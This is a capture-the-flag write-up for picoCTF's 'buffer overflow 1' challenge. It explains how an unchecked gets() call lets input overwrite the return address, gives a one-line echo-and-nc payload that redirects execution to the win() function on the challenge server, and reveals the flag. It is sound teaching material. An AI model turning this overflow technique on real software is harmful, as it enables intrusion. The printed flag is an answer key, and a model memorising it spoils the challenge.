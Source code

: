 
# buffer overflow 1

*Medium*

>### Description
>Control the return address
>Now we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/187/vuln).
>You can view source [here](https://artifacts.picoctf.net/c/187/vuln.c). And connect with it using:
>```
>nc saturn.picoctf.net 62316
>```


### Solution

The program allows us to input any string. It will be stored in "buf" with a buffersize of 32. But the input uses "gets(buf)", this is unsafe since "gets()" does not check for memory sizes, and thus is not safe against buffer overflows. 

We notice that the characters 45-48 we input are reflected into the return address gathered from the "<get_return_address>" method. I also notice that, if I don't do anything malicious, the return address is just the address given in the disassembled binary. So lets try to inject the address of "<win>" (0x080491f6) into the return address.

Since the application is little endian, we use this payload:

```sh
echo -e "aaaabbbbccccddddaaaabbbbccccddddaaaabbbbcccc\xf6\x91\x04\x08" | nc saturn.picoctf.net 62316
```

<details>
<summary>Yes! We got the flag:</summary> 
picoCTF{addr3ss3s_ar3_3asy_b15b081e}
</details>